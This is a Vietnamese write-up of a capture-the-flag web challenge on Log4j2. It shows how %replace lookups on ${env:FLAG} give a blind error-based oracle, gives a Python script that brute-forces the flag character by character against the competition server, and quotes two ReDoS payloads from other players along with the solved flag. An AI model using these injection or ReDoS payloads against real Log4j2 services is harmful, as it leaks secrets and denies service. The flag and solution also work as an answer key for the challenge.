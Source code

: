 # LOG4J2

Bài này cũng tương tự như bài trước nhưng đối với error thì đều hiển thị `Sensitive information detected in output. Censored for security reasons.`

![blind](https://user-images.githubusercontent.com/77546253/177235566-1a0bd15b-0bb0-4d5a-a858-669e1c35f11f.png)

Vì ta đang khai thác theo hướng log4j lookup và hiện tại có được:
- kết quả của lookup là hợp lệ thì không hiển thị ra `Sensitive information detected in output. Censored for security reasons.` (có thể là `The command should start with a /.` hoặc kết quả của `System.out.println()` ...)
- ngược lại hiển thị `Sensitive information detected in output. Censored for security reasons.`

=> tìm cách khai thác theo hướng blind

Tiếp theo mình thử search để tìm cách replace một chuỗi:

![search](https://user-images.githubusercontent.com/77546253/177235600-c4040336-b397-4fd5-ad6a-c4c2c1dedb4d.png)

Tìm được `%replace`, sau khi đọc [docs](https://logging.apache.org/log4j/2.x/manual/layouts.html#:~:text=in%20the%20string%20%22**%22.-,replace,-%7Bpattern%7D%7Bregex%7D%7Bsubstitution) của nó thì có thể hiểu như sau:

Syntax: _replace{pattern}{regex}{substitution}_

-> thực hiện việc thay thế `pattern` với `substitution` theo biểu thức `regex`.

Dùng source của version 1 sau đó build local, chỉnh `<Console name="Console" target="SYSTEM_ERR">` trong `log4j2.xml` thành `<Console name="Console" target="SYSTEM_OUT">` để debug.

Sau đó test với `%replace{${env:FLAG}}{CTF}{${java:os}}`:

![error_test](https://user-images.githubusercontent.com/77546253/177235624-4551272e-6f22-4275-a892-9f842ca8b595.png)

-> throw ra error ngay lập tức bởi vì biến môi trường FLAG có chứa `CTF` vì vậy sẽ trigger replace với substitution là `${java:os}`.  `named capturing group is missing trailing '}'` cho thấy **có lẽ** là không thể dùng lookup ở `substitution` của `%replace` hoặc cách dùng của mình bị sai (điều này không quan trọng lắm bởi vì mục đích vẫn là khai thác error-based).

Nếu test với `%replace{${env:FLAG}}{CTFbla}{${java:os}}` thì:

![success_test](https://user-images.githubusercontent.com/77546253/177235689-65bf74b3-fbfe-49e8-8a40-aa4dbb83925a.png)

-> không throw error bởi vì `CTFbla` không match với biến môi trường FLAG cho nên không trigger replace với substitution.

Tóm lại ta có:
- `text=%replace{${env:FLAG}}{CTF+<right character>}{${java:os}}` -> `Sensitive information detected in output. Censored for security reasons.`
- `text=%replace{${env:FLAG}}{CTF+<wrong character>}{${java:os}}` -> `The command should start with a /.`

---

## Script exploit:

_Note: dùng `.` để thay thế cho `{` trong flag nếu không sẽ bị lỗi syntax._


```py
import requests
import string
import re

URL = "https://log4j2-web.2022.ctfcompetition.com/"

FLAG = "CTF{"

while not FLAG.endswith('}'):
    for i in string.ascii_lowercase + '-':
        trying = r"%replace{${env:FLAG}}{KNOWN}{${java:os}}".replace("KNOWN", FLAG.replace('{', '.') + re.escape(i))
        print(trying)
        r = requests.post(URL, data = {"text": trying})
        if "Sensitive" in r.text:
            FLAG += i
            print(FLAG)
            break
```

**CTF{and-you-thought-it-was-over-didnt-you}**

___

P/S: bài này intended solution của nó là ReDoS khai thác dựa vào `regex` của `%replace` lúc đầu mình cũng định làm theo hướng này nhưng sau khi test ra được blind error-based như trên thì chuyển luôn 😗.

solution của tác giả `@phiber`:

```
{"text": "/%replace{%replace{${env:FLAG}}{^.{" + str(char_count) + "}(.).*}{$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1}@}{(.*" + c + "){10}$}{}"}
```

hoặc của `@maple3142`
```
%replace{S${env:FLAG}E}{^SCTF.something((((((((((((((((((((.)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*E$}{}
```
